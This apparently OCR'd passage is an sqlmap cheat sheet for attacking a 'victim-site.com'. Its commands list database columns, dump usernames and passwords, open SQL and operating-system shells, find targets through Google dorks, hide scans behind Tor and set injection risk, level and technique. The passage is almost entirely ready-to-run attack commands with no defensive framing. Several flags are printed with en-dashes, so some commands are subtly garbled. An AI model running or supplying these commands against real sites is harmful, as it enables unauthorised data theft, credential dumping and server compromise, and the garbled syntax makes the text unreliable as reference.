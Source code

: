 List all columns of victim table

sqlmap –u “https://victim-site.com/product.php?id=1”  –D dbname  -T tablename  --columns

* List usernames

Get usernames from victim columns of selected table.

sqlmap –u “https://victim-site.com/product.php?id=1”  –D dbname  -T tablename  -C columnname --dump

* Extract pwd from victim column

Extract passwords from column

sqlmap –u “https://victim-site.com/product.php?id=1”  –D dbname  –C columname  --dump

Custom Methods:

Test on custom position on POST request method:

Use * to let sqlmap know the postion you want to use for sqlmap payload

sqlmap –u ‘https://victim-site.com/page/abc*’ --dbs

Google Dorks SQLMap method:

sqlmap  -g ‘inurl:”products.php?id”’ –random-agent –f –batch –answer=”extending=N,follow=N,keep=N,exploit=n”

Get SQL Shell

Sqlmap –dbms=mysql –u “https://victim-site.com/login.php” –sql-shell

Get OS Shell

sqlmap  --dbms=mysql –u “https://victim-site.com/login.php” –os-shell

Tor scanning:

sqlmap –u “https://victim-site.com/product.php?id=1” –tor –tor-type=SOCKS5

There are 3 risk values:

    Risk 1: Default level
    Risk 2: Heavy query time based injections
    Risk 3: Adds OR based injections

Levels:

    Level 2: HTTP Cookie Header Testing
    Level 3 HTTP User Agent and Referer Header Testing
    Level 5 Attack the Host Header

sqlmap –u “https://victim-site.com/product.php?id=1” –risk=2 –level=3

Attack Method Choices:

You can let SQLMap know what exploit method you want to use:

    E: Error Based
    S: Stacked Queries
    T: Time Based Blind
    B: Boolean Based Blind
    U: Union Query
    Q: Inline Queries
